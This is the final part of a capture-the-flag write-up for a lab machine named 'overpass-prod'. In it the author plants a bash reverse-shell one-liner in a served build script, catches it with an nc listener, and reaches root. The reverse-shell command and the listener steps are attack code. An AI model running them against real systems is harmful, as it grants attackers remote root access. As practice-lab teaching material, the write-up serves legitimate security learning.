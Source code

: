 ```terminal
┌──(sirius㉿kali)-[~]
└─$ mkdir -p downloads/src

┌──(sirius㉿kali)-[~]
└─$ touch downloads/src/buildscript.sh

┌──(sirius㉿kali)-[~]
└─$ vim downloads/src/buildscript.sh

┌──(sirius㉿kali)-[~]
└─$ cat downloads/src/buildscript.sh
/bin/bash -i >& /dev/tcp/10.11.31.131/9001 0>&1

┌──(sirius㉿kali)-[~]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

I put a command that sends me a root shell, so i will need to set up a listener so get that shell:

```terminal
┌──(sirius㉿kali)-[~]
└─$ nc -lnvp 9001       
listening on [any] 9001 ...
connect to [10.11.31.131] from (UNKNOWN) [10.10.191.99] 51846
bash: cannot set terminal process group (3730): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# whoami
whoami
root
root@overpass-prod:~#
```

Great, we got root.

Thank you for taking the time to read my writeup, this was a really fun machine. I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .

